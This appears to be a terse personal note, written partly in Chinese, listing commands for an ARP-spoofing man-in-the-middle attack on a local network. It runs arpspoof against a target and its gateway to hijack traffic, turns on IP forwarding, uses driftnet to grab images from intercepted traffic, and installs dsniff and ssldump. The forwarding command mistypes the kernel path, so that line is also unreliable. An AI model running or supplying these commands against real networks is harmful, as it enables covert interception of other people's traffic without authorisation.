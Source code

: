 # Arp
---

arp -a

arpspoof进行流量劫持  arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0

---

apt install dsniff ssldump




